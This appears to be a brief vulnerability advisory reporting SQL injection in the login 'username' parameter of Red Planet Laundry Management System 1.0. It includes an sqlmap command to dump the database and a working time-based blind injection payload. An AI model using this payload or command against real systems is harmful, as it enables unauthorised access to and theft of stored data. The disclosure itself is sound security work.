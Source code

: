 # Red-Planet-Laundry-Management-System-1.0-is-vulnerable-to-SQL

1-Description:

Red Planet Laundry Management System 1.0 is vulnerable to SQL Injection via parameter 'username' in /index.php/login/rediract . Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latent vulnerabilities in the underlying database.

2-Proof of Concept:

In Burpsuite intercept the request from the affected page with 'username' parameter and save it like poc.txt Then run SQLmap to extract the data from the database:
sqlmap.py -r poc.txt --dbms=mysql

3-Example payload:

URL encoded POST input username was set to 0'XOR(if(now()=sysdate(),sleep(4),0))XOR'Z












Contact details:   yavuzsahbaz@gmail.com
